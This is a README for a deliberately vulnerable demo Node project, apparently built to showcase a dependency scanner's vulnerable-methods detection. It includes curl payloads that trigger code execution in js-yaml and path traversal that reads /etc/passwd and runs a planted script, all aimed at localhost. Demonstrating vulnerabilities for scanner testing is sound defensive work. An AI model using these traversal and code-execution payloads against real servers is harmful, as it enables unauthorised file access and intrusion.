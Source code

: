 # [:] Example node project with vulnerable methods

A node project to demonstrate srcclr agent's vulnerable methods feature for JavaScript

## Vulnerability 1 (SID-13642) Exploit

```
git clone https://github.com/srcclr/example-javascript-vulnerable-methods.git
cd example-javascript-vulnerable-methods
npm install
node index.js

```
The vulnerable method is called twice during the server startup, however another one needs to be trigged by issuing a
request to the endpoint by running the following command in another terminal to trigger the code execution vulnerability 
in `js-yaml:load`

```
curl --path-as-is 'http://127.0.0.1:8001/api/'
```

## Vulnerability 2 (SID-20301) Exploit

Use the following to trigger the directory traversal vulnerability (SID-20301)in `algo-httpserv:serve` 

```
curl --path-as-is 'http://127.0.0.1/8001/../../../../../../etc/passwd'
```


## Vulnerability 3 (SID-21402) Exploit

```
git clone https://github.com/srcclr/example-javascript-vulnerable-methods.git
cd example-javascript-vulnerable-methods
npm install
node larvitbase-api.js

```

and then run the following command in another terminal

```
curl --path-as-is 'http://127.0.0.1:8001/../../../../hacked'
```
You can see the JavaScript file`hacked.js` is executed in the server side.

## Scan with SRCCLR Agent

```
brew tap srcclr/srcclr
brew install srcclr
srcclr activate
srcclr scan --url https://github.com/srcclr/example-javascript-vulnerable-methods
```

somechange
somechange pull
